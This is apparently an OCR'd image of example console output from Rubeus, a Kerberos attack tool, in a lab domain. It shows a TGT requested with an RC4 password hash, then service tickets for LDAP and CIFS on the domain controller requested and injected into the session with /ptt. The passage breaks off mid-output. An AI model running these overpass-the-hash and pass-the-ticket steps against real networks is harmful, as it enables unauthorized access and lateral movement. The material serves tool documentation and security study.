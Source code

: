        ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/

      v1.0.0

    [*] Action: Ask TGT

    [*] Using rc4_hmac hash: 2b576acbe6bcfda7294d6bd18041b8fe
    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Building AS-REQ (w/ preauth) for: 'testlab.local\harmj0y'
    [*] Connecting to 192.168.52.100:88
    [*] Sent 232 bytes
    [*] Received 1405 bytes
    [+] TGT request successful!
    [*] base64(ticket.kirbi):

          doIFFjCCBRKgAwIBBa...(snip)...

    C:\Temp\tickets>Rubeus.exe asktgs /ticket:doIFFjCCBRKgAwIBBa...(snip...)== /service:LDAP/primary.testlab.local,cifs/primary.testlab.local /ptt

       ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/

      v1.0.0

    [*] Action: Ask TGS

    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Building TGS-REQ request for: 'LDAP/primary.testlab.local'
    [*] Connecting to 192.168.52.100:88
    [*] Sent 1384 bytes
    [*] Received 1430 bytes
    [+] TGS request successful!
    [*] base64(ticket.kirbi):

          doIFSjCCBUagAwIBBaEDA...(snip)...

    [*] Action: Import Ticket
    [+] Ticket successfully imported!

    [*] Action: Ask TGS

    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Building TGS-REQ request for: 'cifs/primary.testlab.local'
    [*] Connecting to 192.168.52.100:88
    [*] Sent 1384 bytes
    [*] Received 1430 bytes
    [+] TGS request successful!
    [*] base64(ticket.kirbi):
